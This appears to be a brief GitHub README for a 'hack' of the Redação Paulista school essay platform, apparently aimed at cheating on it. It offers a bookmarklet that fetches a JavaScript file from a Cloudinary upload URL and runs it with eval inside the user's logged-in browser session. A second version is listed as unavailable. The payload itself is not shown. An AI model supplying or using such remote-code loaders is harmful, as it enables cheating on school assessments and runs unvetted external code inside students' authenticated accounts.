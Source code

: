# 🚀 HCK - REDAÇÃO PAULISTA 

## REDAÇÃO V2 (MANUTENÇÃO)
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1747913117/redacaov2.js").then(t=>t.text()).then(eval);
```

## REDAÇÃO V3
```js
javascript:fetch("INDISPONÍVEL").then(t=>t.text()).then(eval);
```
